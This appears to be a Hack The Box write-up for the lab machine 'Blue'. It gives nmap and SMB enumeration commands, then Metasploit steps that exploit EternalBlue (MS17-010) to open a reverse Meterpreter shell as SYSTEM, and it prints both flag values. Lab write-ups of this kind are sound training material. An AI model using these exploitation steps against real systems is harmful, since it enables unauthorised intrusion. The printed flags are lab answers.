 # Hack The Box - Blue (10.10.10.40)

## 🧠 Summary

**Blue** is a retired Windows machine notable for its vulnerability to the **EternalBlue** exploit (MS17-010 / CVE-2017-0143). This well-known SMBv1 vulnerability enables remote code execution and was famously used during the WannaCry outbreak. We exploit this flaw using Metasploit to gain a `NT AUTHORITY\SYSTEM` shell and retrieve both user and root flags.

---

## 🔍 Enumeration

### 🔹 Nmap

```bash
nmap -p- blue.htb --min-rate 5000
nmap -p 135,139,445,49152 -sC -sV blue.htb -oN nmap_alert
nmap -p 445 --script vuln blue.htb
```

**Ports:**
- 135/tcp – msrpc
- 139/tcp – netbios-ssn
- 445/tcp – microsoft-ds
- 49152–49157 – high ports (RPC)

**Script Scan Shows:**
- ✅ Vulnerable to **MS17-010**

---

## 📁 SMB Enumeration

```bash
smbclient -L blue.htb
```

Found accessible shares and OS: **Windows 7 Professional SP1 x64**

---

## 💥 Exploitation: EternalBlue (MS17-010)

### 🔸 Metasploit Setup

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(...) > set RHOSTS blue.htb
msf6 exploit(...) > set LHOST 10.10.14.12
msf6 exploit(...) > run
```

### 🎯 Result

```bash
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 1 opened (10.10.14.12:4444 -> 10.10.10.40:49158)
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

---

## 🏁 Flags

```bash
type c:\users\haris\desktop\user.txt
272686dd5f6412c43a417c68a26b2d0c

type c:\users\administrator\desktop\root.txt
34b6ca70429d8510950c8e6a92c21ca4
```

---

## 📌 Notes

- EternalBlue is one of the most impactful SMB exploits in history.
- This machine demonstrates its full remote code execution capability.
- Excellent practice for using Metasploit against legacy Windows targets.

---

*Writeup by [inkedqt](https://github.com/inkedqt)*
